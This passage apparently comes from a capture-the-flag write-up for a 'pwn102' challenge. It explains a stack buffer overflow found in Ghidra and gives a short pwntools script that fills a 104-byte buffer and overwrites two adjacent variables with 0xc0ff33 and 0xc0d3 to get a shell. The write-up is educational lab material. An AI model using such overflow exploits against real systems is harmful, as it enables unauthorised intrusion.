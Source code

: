 ![3](https://i.ibb.co/XbNcmQQ/shell.png)

## 102

### Intoroduction

So for the next challenge we are required to modify a variable's value. This occurs when data larger than the allocated memory space (buffer) is written into that buffer. As a result, it can overwrite adjacent memory, including variables.

### Disassembly in Ghidra

![4](https://i.ibb.co/N2bFgf6/ghidra.png)

Here we can see that we have a buffer set to 104, meaning we can input data larger than 104 and be able to modify the variables that come in after. We can now see that we have two variables that have been defined. We can also see an if function that checks if the two variables are equal to some values, if not the program exits. Since we now know what the two values should be equal to, let us modify them.

### Exploit

After the disassembly we can now come up with our very own exploit. This tiem we are going to be using pwntools to craft an exploit. Looking at our disassembled code in ghidra we can see that the values for parameter 1 and parameter 2 should be ```0xc0ff33 and 0xc0d3``` respectively. Due to little endianness we first pass in the second parameter and then the first parameter. Little Endianness refers to the byte order used to store data in computer memory. In a system that uses Little Endianness, the least significant byte (the "little end") of a multi-byte value is stored at the lowest memory address, while the most significant byte (the "big end") is stored at a higher memory address. To check for endianness you can use ```rabin2 -I binary```.

```
from pwn import *

p = process("./pwn102.pwn102") # runs the binary locally
#p = remote("ip_provided", 9002) # runs remotely

param_1 = p32(0xc0ff33) # packed in 32 bit since it is short
param_2 = p32(0xc0d3)

payload = b'A' * 104 # filling the buffer with bunch of A's
payload += param_2 
payload += param_1

p.sendlineafter("?", payload) # sending the payload
p.interactive() # spawn a shell
```
## 103

### Introduction
